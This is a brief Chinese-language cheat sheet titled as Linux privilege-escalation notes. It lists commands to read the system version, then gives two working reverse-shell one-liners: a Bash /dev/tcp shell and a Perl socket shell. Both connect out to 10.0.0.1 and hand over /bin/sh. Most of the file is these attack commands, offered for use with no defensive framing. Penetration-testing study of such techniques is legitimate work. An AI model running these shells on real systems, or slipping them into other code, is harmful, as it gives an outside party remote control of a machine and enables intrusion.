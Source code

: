 # GUN Linux 提权笔记

### 查看系统版本
``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```

### Shell反弹
* **Bash反弹**
``` sh
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
* **Perl反弹**
``` sh
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
